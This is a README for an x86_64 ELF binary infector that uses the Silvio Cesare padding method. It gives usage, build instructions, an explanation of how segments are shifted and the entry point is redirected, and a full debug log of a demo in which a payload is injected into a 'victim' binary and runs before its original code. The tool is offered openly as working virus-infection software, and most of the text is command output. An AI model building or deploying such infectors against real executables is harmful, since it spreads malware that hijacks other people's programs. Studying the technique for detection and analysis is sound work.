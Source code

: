 # silvio_binary_infector
Silvio Elf x86_64 binary infector

## Description

### Usage
```./infector <target> <payload```

Binary infector that infects target with some payload.
It just changed control flow to payload, execute it and move control flow back to original entry point.

It used Silvio Caesare padding infection method described here [NOTE: Link is unsecure!!](https://vxug.fakedoma.in/archive/VxHeaven/lib/vsc01.html).
The method used padding between Text and Data Elf segments to store payload, this padding exit only in memory(runtime) so after parasite insertion we 
should move all segments (Data and following) and section table forward on ```parasite size``` bytes.

Payload should be link-free ```-nostdlib```

## Build

`make`

Comment/Uncoment ```-DDEBUG``` option in Makefile to disable/enable Debug output

##Example
```
>$ ./victim
Im a victim. Please don't infect me


>$ ./payload
I'm an payload! You are infected!!


>$ ./infector victim payload
[DEBUG]: infector.c:153:read_elf_data(): Successfully read victim
[DEBUG]: infector.c:153:read_elf_data(): Successfully read payload
[INFO ]: infector.c:71:main(): Successfully read binary data of target "victim" and payload "payload"
[DEBUG]: infector.c:194:infect_text_segment(): Old .text entry of target "victim" binary 0x1060
[DEBUG]: infector.c:195:infect_text_segment(): Using 4096 bytes as page size
[DEBUG]: infector.c:177:get_text_segment():
        Found .text segment of target "victim":
                Offset: 0x1000
                Virtual address: 0x1000
                Physical address: 0x1000
                File size: 477
                Memory size: 477
[DEBUG]: infector.c:177:get_text_segment():
        Found .text segment of target "payload":
                Offset: 0x1000
                Virtual address: 0x1000
                Physical address: 0x1000
                File size: 210
                Memory size: 210
[INFO ]: infector.c:202:infect_text_segment(): Infection payload size: payload file("payload") 210 bytes + return control flow shellcode 8 bytes = 218
[DEBUG]: infector.c:208:infect_text_segment(): End of text of target "victim": 4573
[DEBUG]: infector.c:210:infect_text_segment(): Parasite "payload" infection virtual address in target "victim": 0x11dd
[DEBUG]: infector.c:218:infect_text_segment(): Offset of target "victim" segment 4 was increased by 4096 bytes
[DEBUG]: infector.c:218:infect_text_segment(): Offset of target "victim" segment 5 was increased by 4096 bytes
[DEBUG]: infector.c:218:infect_text_segment(): Offset of target "victim" segment 6 was increased by 4096 bytes
[DEBUG]: infector.c:218:infect_text_segment(): Offset of target "victim" segment 8 was increased by 4096 bytes
[DEBUG]: infector.c:218:infect_text_segment(): Offset of target "victim" segment 10 was increased by 4096 bytes
[INFO ]: infector.c:231:infect_text_segment(): Found section header where payload "payload" should locate: 0x11d4
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 16 was increadr by 4096 bytes
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 17 was increadr by 4096 bytes
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 18 was increadr by 4096 bytes
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 19 was increadr by 4096 bytes
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 20 was increadr by 4096 bytes
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 21 was increadr by 4096 bytes
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 22 was increadr by 4096 bytes
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 23 was increadr by 4096 bytes
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 24 was increadr by 4096 bytes
[DEBUG]: infector.c:228:infect_text_segment(): Ofset of target "victim" section 25 was increadr by 4096 bytes
[INFO ]: infector.c:237:infect_text_segment(): Changed entry point of target "victim" to 0x11dd
[INFO ]: infector.c:246:infect_text_segment(): Create temporary file for infected target "victim": .xyz.tempo.elf64
[INFO ]: infector.c:253:infect_text_segment(): First part (up to end of text segment) of target "victim" wrote to file ".xyz.tempo.elf64"
[INFO ]: infector.c:260:infect_text_segment(): Payload "payload" data wrote to file ".xyz.tempo.elf64"
[DEBUG]: infector.c:96:debug_shellcode(): Shellcode before patch: b8 0 0 0 0 ff e0 0
[DEBUG]: infector.c:96:debug_shellcode(): Shellcode after patch with original entry addr: b8 60 10 0 0 ff e0 0
[INFO ]: infector.c:269:infect_text_segment(): Create shellcode to restore original entry 0x1060 of target "victim"
[INFO ]: infector.c:277:infect_text_segment(): Shellcode for restore original target "victim" entrypoint 4192 wrote to file "payload"
[INFO ]: infector.c:286:infect_text_segment(): Last chunk (from end .text section up to end file) of target "victim" wrote to file ".xyz.tempo.elf64"
[INFO ]: infector.c:76:main(): Successfully infect "victim" with payload "payload"
[DEBUG]: infector.c:120:cleanup_elf_data(): Successfully cleanup victim file structures
[DEBUG]: infector.c:120:cleanup_elf_data(): Successfully cleanup payload file structures
[DEBUG]: infector.c:79:main(): OK


$> ./victim
I'm an payload! You are infected!!
Im a victim. Please don't infect me


```
